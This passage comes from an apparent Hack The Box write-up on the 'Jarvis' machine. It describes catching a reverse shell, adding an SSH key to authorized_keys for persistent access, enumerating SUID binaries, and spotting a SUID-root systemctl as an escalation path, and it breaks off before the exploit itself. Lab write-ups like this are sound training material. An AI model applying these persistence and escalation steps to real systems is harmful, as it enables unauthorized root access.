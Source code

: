 The program hangs because the script needs to terminate before the ping command is executed. A reverse shell connected on port 444, so I added my SSH public key in the `~/.ssh/authorized_keys` file and connected using SSH:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/jarvis# ssh pepper@jarvis.htb
Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Nov  5 11:00:02 2019 from 10.10.15.147
pepper@jarvis:~$ wc user.txt 
 1  1 33 user.txt
pepper@jarvis:~$

{% endhighlight %}

We got user! I won’t display the file’s contents, but I can tell you that the proof starts with `2a` 🙂

## Exploiting systemctl

After getting the user flag, I started enumerating the machine again. While listing the SUID binaries, I noticed `systemctl` on the list:

{% highlight bash %}
pepper@jarvis:~$ find / -perm -4000 2> /dev/null
/bin/fusermount
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
pepper@jarvis:~$

{% endhighlight %}

This is odd because `systemctl` should be ran as the current user only. Instead, we can run it as its owner, `root`:

{% highlight bash %}
pepper@jarvis:~$ ls -la /bin/systemctl
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
pepper@jarvis:~$

{% endhighlight %}
